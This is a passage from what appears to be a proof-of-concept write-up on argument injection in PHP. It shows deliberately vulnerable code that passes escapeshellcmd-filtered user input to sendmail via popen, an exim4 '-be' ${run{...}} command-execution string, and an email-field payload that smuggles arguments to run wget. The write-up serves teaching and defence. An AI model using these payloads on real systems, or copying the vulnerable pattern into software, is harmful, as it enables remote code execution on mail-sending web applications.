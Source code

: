 In the second option of the PoC we use a function accessible by PHP to escape possible dangerous shell characters that would allow  an attacker to concatenate commands. The used code is as follows:


```php
}elseif (isset($_POST['emailFrom']) and isset($_POST['emailTo']) and isset($_POST['body']) and !strcmp($_POST['submit'],'Argument Injection')) {
	
	$emailTo = $_POST['emailTo'];

	$emailFrom = escapeshellcmd($_POST['emailFrom']);

	$body = $_POST['body'];

//Payload2 used here!

popen("/usr/sbin/sendmail -f".$emailFrom,"r");

//We can try using the rest of dangerous functions here!

```

This function will escape symbols as “;|{} …”. 
But this php function will not escape spaces, the injection of them will be the key to exploiting the Argument Injection. As I  mentioned before, by analyzing the used executable, we are  able to obtain an exploitation vector. The target executable is “sendmail”, which  in most of Unix OS is a soft link to the target binary to study: “exim4”. Legal hackers has performed an outstanding study of it with, making his exploitation possible: [PHPMAILER CVE-2016-10033](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html)

Coming  from the link above, “exim4” has  an argument “-be” that grants us access to run shell commands in the operating system. Basically, it is possible to run something like this in bash to test the functionality:


```bash
/usr/sbin/exim4 -be '${run{/usr/bin/id}}'
```

So at first instance, we would  think that a payload like the following would easily to the job:

```bash
ss@email.com -be '${run{/usr/bin/wget http://127.0.0.1/test}}'
```

Unfortunately, this is not going to  work. To  easily figure out what is going on, we need to  use the little bash script we mention before (commanddebugger inside the PoC) and configure the server where the PoC is running as follows:

```bash
ln -s /home/ubuntu/debugger /usr/sbin/sendmail
chmod +x /usr/sbin/sendmail
```

If we run again the previous payload, we can see at /tmp/outgoing-command in the following:

```bash
root@ubuntu:/home/ubuntu# cat /tmp/outgoing-command 
Received: /usr/sbin/sendmail
Received: -fss@email.com
Received: -be
Received: \$\{run\{/usr/bin/wget http://127.0.0.1/test\}\}
Received:
Received:
```
